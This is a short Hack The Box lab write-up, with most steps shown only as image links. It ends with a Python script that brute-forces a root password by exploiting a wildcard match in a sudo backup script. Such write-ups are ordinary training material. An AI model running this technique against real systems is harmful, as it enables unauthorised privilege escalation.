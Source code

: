 Using sqlite3

![[/Untitled 124 2.png|Untitled 124 2.png]]

Using john and the rockyou dictionary

![[/Untitled 125 2.png|Untitled 125 2.png]]

Now lets connect with SSH

![[/Untitled 126 2.png|Untitled 126 2.png]]

Listed sudo permissions

![[/Untitled 127 2.png|Untitled 127 2.png]]

This is what the script haves

![[/Untitled 128 2.png|Untitled 128 2.png]]

As we can see, the script checks for a password, but this password is not in quotation marks, so it is not a string.

![[/Untitled 129 2.png|Untitled 129 2.png]]

I tried entering an asterix * and the “password” worked

![[/Untitled 130 2.png|Untitled 130 2.png]]

So what we can try is to test every letter

THE MACHINE WAS UNSTABLE, IT DROPS THE SSH CONNECTIONS, SO ONCE I SAW THE SCRIPT WORKED I GRABBED THE PASS AND THE ROOT FLAG FROM A WRITEUP

HTB FREE IS BULLSHIT

I had to use the script step by step

- Script
    
    ```Python
    import string
    import subprocess
    all = list(string.ascii_letters + string.digits)
    password = "kljh12k3jhaskjh12kjh3"
    found = False
    
    while not found:
        for character in all:
            command = f"echo '{password}{character}*' | sudo /opt/scripts/mysql-backup.sh"
            output = subprocess.run(command, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, text=True).stdout
    
            if "Password confirmed!" in output:
                password += character
                print(password)
                break
        else:
            found = True
    ```
    